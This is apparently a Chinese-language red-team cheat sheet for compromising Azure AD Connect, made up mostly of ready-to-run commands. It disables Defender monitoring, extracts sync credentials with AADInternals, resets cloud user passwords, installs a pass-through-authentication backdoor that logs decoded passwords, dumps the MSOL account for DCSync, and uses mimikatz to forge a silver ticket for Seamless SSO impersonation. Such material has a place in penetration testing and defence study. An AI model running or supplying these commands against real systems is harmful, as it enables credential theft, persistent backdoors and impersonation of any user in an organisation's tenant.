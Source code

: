  #### 检查是否安装了 Azure AD Connect：Get-ADSyncConnector

	对于PHS，我们可以提取凭证
	对于PTA，我们可以安装代理
	对于联合身份，我们可以使用 DA 从 ADFS 服务器提取证书
	PS > Set-MpPreference -DisableRealtimeMonitoring $true
	PS > Copy-Item -ToSession $adcnct -Path C:\Tools\AADInternals.0.4.5.zip -Destination C:\Users\Administrator\Documents
	PS > Expand-Archive C:\Users\Administrator\Documents\AADInternals.0.4.5.zip -DestinationPath C:\Users\Administrator\Documents\AADInternals
	PS > Import-Module C:\Users\Administrator\Documents\AADInternals\AADInternals.psd1
	PS > Get-AADIntSyncCredentials

	获取 SYNC 帐户的令牌并重置本地管理员密码
	PS > $passwd = ConvertToSecureString 'password' -AsPlainText -Force
	PS > $creds = New-Object System.Management.Automation.PSCredential ("<Username>@<TenantName>.onmicrosoft.com", $passwd)
	PS > GetAADIntAccessTokenForAADGraph -Credentials $creds –SaveToCache
	PS > Get-AADIntUser -UserPrincipalName onpremadmin@defcorpsecure.onmicrosoft.com | select ImmutableId
	PS > Set-AADIntUserPassword -SourceAnchor "<IMMUTABLE-ID>" -Password "Password" -Verbose

 #### 检查是否安装了 PTA：Get-Command -Module PassthroughAuthPSModule
	安装 PTA 后门
	PS AADInternals> Install-AADIntPTASpy
	PS AADInternals> Get-AADIntPTASpyLog -DecodePasswords

 #### Azure AD Connect - 密码提取
	AD Sync 中的凭据：C:\Program Files\Microsoft Azure AD Sync\Data\ADSync.mdf
工具 | 需要在目标上执行代码 | DLL 依赖项 | 本地需要 MSSQL | 本地需要python
--- | --- | --- | --- | ---
ADSyncDecrypt | 是 | 是 | 否 | 否
ADSyncGather | 是 | 否 | 否 | 是
ADSyncQuery | 否 (仅限网络 RPC 调用) | 否 | 是 | 是

	git clone https://github.com/fox-it/adconnectdump
 #### Azure AD Connect - MSOL 帐户的密码和 DCSync
  	可以使用 MSOL 帐户执行DCSync攻击
	要求：
	使用 Azure AD Connect 服务破坏服务器
	访问 ADSyncAdmins 或本地管理员组
	使用azuread_decrypt_msol.ps1来恢复 MSOL 帐户的解密密码：
	azuread_decrypt_msol.ps1: AD Connect 同步凭证提取 POC https://gist.github.com/xpn/0dc393e944d8733e3c63023968583545
	azuread_decrypt_msol_v2.ps1：更新了转储 Azure AD Connect Sync https://gist.github.com/xpn/f12b145dba16c2eebdd1c6829267b90c使用的 MSOL 服务帐户（允许 DCSync）的方法
	现在可以使用检索到的 MSOL 帐户凭据来发起 DCSync 攻击。
 #### Azure AD Connect - 银票上的无缝单点登录
  	任何可以编辑 AZUREADSSOACCS$ 帐户属性的人都可以使用 Kerberos 模拟 Azure AD 中的任何用户（如果没有 MFA）
	PHS 和 PTA 都支持无缝 SSO。如果启用无缝 SSO，则会在本地 AD 中创建计算机帐户AZUREADSSOC。
	AZUREADSSOACC 帐户的密码永远不会更改。
	使用https://autologon.microsoftazuread-sso.com/将 Kerberos 票证转换为 Office 365 和 Azure 的 SAML 和 JWT

	AZUREADSSOACC 帐户的 NTLM 密码哈希，例如f9969e088b2c13d93833d0ce436c76dd.
	mimikatz.exe "lsadump::dcsync /user:AZUREADSSOACC$" exit
	我们要模拟的用户的 AAD 登录名，例如elrond@contoso.com. 这通常是他的 userPrincipalName 或来自本地 AD 的邮件属性。
	我们要模拟的用户的 SID，例如S-1-5-21-2121516926-2695913149-3163778339-1234.
	创建 Silver Ticket 并将其注入 Kerberos 缓存：
	mimikatz.exe "kerberos::golden /user:elrond
	/sid:S-1-5-21-2121516926-2695913149-3163778339 /id:1234
	/domain:contoso.local /rc4:f9969e088b2c13d93833d0ce436c76dd
	/target:aadg.windows.net.nsatc.net /service:HTTP /ptt" exit
	启动 Mozilla Firefox
	转到 about:config 并将network.negotiate-auth.trusted-uris preference值设置为https://aadg.windows.net.nsatc.net,https://autologon.microsoftazuread-sso.com
	导航到与我们的 AAD 域集成的任何 Web 应用程序。填写用户名，同时将密码字段留空。